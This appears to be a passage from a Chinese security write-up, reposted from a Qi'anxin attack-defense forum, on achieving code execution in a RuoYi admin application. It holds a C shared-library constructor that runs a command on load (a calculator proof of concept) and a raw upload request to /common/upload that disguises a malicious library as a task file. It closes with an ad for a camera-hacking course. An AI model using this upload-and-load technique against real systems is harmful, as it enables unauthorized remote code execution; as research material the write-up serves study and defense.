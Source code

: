 ![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicia6bEM5Wyrmm3KBlC1TiaicucSoicorh2hQv1wlzVhom40cE1PzDDEd8bA/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicrCJ4EqANqJVicnpW8Cic4uHS3sHR2PV79YMU9KHj4H2AW8Y8oJvpAmAQ/640?wx_fmt=png&from=appmsg "")  
```
cat calc.c 

#include <stdlib.h>
__attribute__((constructor))
staticvoid run() {
system("open -a Calculator");
}
```  
```
POST /common/upload HTTP/1.1
Host: 10.40.107.67
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9,en;q=0.8Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=b414f17a-7363-47d9-b164-3d0532a09b1cx-forwarded-for: 127.0.0.1Connection: closeContent-Type: multipart/form-data; boundary=00content0boundary00Content-Length: 167--00content0boundary00Content-Disposition: form-data; name="file"; filename="com.ruoyi.quartz.task.txt"Content-Type: image/jpg二进制恶意代码--00content0boundary00--
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicdAPw6F0qkic9Qg1ZqsxOgzT1qY1wJPHPrD6HuC7oBjgthoclY2tPiaHA/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  
  
注意他会自动在后面添加dylib等后缀，在不同的系统中可能有不同的后缀，并且要注意架构问题  
  
文章作者：奇安信攻防社区（  
 Locks_）  
  
文章来源：  
https://forum.butian.net/share/4328  
  
如有侵权请联系删除  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/jVk423I423fpuYotTS5CuGN2LiaOD8C9JehkdRxGIbazQicjkfHucXQaSiaGlErIVZYB0AoF7ZjeIA1J8gfR1yRuw/640?from=appmsg "")  
  
广告时间  
  
  
【网安免费公开课】  
  
黑客攻击摄像头技术大揭秘！  
  
👉  
6月16日晚 20:00 在线直播  
  